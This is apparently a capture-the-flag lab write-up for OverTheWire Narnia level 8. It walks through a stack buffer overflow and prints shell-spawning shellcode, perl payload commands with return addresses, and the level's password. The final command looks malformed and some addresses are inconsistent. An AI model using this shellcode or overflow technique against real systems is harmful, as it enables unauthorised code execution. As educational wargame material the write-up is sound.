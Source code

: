 # Level 8
ssh narnia8@narnia.labs.overthewire.org -p 2226  
Pass: 1aBcDgPttG  
An initial run of the binary shows the following:  
<img width="418" alt="Screen Shot 2024-04-01 at 7 09 15 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/91b5823e-0c3d-4dc9-9024-3188504b3ea4">  

In the C source file we see that the program takes a command line argument and then passes it to func.  
We see that we are basically copying the character array we pass into the program into "bok" until it hits a null byte. We see that "bok" is allocated 20 bytes.  It is clear that there is a buffer overflow vulnerability because the string we input does not have to stop at 20 bytes but after that "bok" will be full and we will start overwriting the address of argv[1] and it wont be pointing to our payload anymore. Almost acts like a canary.  

So basically we want to 1. overwrite bok with 20 junk bytes 2. preserve address of argv[1] 3. 4 junk bytes for ebp 5. addr of a enviornment variable we control   

Make a file /tmp/getenvvaraddr.c in the tmp directory to find the address of the enviornment variable we are going to make:
<img width="609" alt="Screen Shot 2024-04-01 at 8 27 27 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/dbf7d601-e9bb-4fdb-b24a-dbd32493cbf5">  

Now make an enviornment variable with the shellcode we used from the previous challenges stored in it:
export LVL8="$(perl -e 'print"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')"  

Now compile the c file we made and run it with the name of this enviornment variable.  
$ gcc -m32 getenvvaraddr.c -o getenvvaraddr  
$ ./getenvvaraddr LVL8  
This gives us the following output:  
addr of LVL8: 0xffffdfa5  


narnia8@gibson:/narnia$ perl -e 'printf("%8x\n", 0xffffaed7 - 12)'
ffffaecb  
./narnia8 $(perl -e 'print "AAAAAAAAAAAAAAAAAAAA"') | xxd   

./narnia8 $(perl -e 'print "AAAAAAAAAAAAAAAAAAAA" . "\xcb\xae\xff\xff" . "AAAA" "\xa5\xdf\xff\xff" ')    



